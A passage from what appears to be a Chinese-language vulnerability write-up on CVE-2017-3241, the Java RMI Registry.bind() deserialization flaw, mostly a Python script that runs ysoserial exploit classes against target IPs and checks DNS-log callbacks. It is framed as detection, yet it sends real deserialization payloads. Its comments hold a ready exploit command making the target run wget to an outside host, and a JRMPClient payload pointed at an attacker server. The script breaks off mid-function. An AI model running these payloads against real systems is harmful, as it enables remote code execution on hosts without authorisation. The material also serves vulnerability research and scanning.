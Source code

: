 ![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1599483103464-bcb152bd-fe65-4a34-8790-3424a7fa3535.png)

![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1599553346268-960cba73-4746-4533-9dba-851a899c81a1.png)

### 更完善的检测脚本

至此可以更新一版检测脚本了，使用RMIRegistryExploitJdk8u231和JRMPClient2，能检测到URLDNS检测不到的高版本（8u121---8u231），避免部分漏报了。

但值得注意的是，这个PoC能检测出的目标，不一定都能利用，尤其是缺少gadget对应的依赖包的情况下。

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4woo'
__github__ = 'https://github.com/bit4woo'
import subprocess

'''
Java RMI Registry.bind() 反序列化代码执行漏洞
'''

fpw = open("rmi-errors-20200907.txt","w")

# 注意：URLDNS这个gadget也只能检测8u121以下的版本
def poc_URLDNS(ip, port="1099"):
    try:
        ys_filepath = r'D:\ser\ysoserial-0.0.6-bit4woo-all.jar'
        dnslog = dnslogapi.DNSlog(ip+".urldns")
        domain = dnslog.getPayload()
        # D:\ser>java -cp ysoserial-0.0.5.jar ysoserial.exploit.RMIRegistryExploit 10.203.20.57 1099 CommonsCollections1 "wget rmiyso.bit.0y0.link"
        popen = subprocess.Popen(["java", '-cp', ys_filepath, "ysoserial.exploit.RMIRegistryExploit",ip,port,"URLDNS", "http://"+domain],stdout=subprocess.PIPE,stderr=subprocess.PIPE)
        fpw.writelines("=================" + ip + "================\r\n")
        error = popen.stderr.read()
        # print (error)
        fpw.writelines(bytes.decode(error))
        fpw.writelines("\r\n")
        fpw.flush()
        return dnslog.query()
    except Exception as e:
        print(e)
        return False

# 相比URLDNS这个gadget，能检测到URLDNS检测不到的高版本（8u121---8u221）
def poc_JRMPClient(ip, port="1099"):
    try:
        ys_filepath = r'D:\ser\ysoserial-0.0.6-bit4woo-all.jar'
        dnslog = dnslogapi.DNSlog(ip+".JRMPClient")
        domain = dnslog.getPayload()
        # 这个payload如果能收到dnslog，说明JDK版本小于8u231，存在利用可能的。但是到底能不能利用，还是需要进一步的验证。
        # java -cp ysoserial-0.0.6-bit4woo-all.jar ysoserial.exploit.RMIRegistryExploitBypassFilterAndLookup 192.168.1.100 1099 JRMPClient sz.myvps.com:1099
        popen = subprocess.Popen(["java", '-cp', ys_filepath, "ysoserial.exploit.RMIRegistryExploitJdk8u231",ip,port,"JRMPClient2", domain],stdout=subprocess.PIPE,stderr=subprocess.PIPE)

        fpw.writelines("================="+ip+"================\r\n")
        error = popen.stderr.read()
        # print (error)
        fpw.writelines(bytes.decode(error))
        fpw.writelines("\r\n")
        fpw.flush()
        return dnslog.query()
    except Exception as e:
```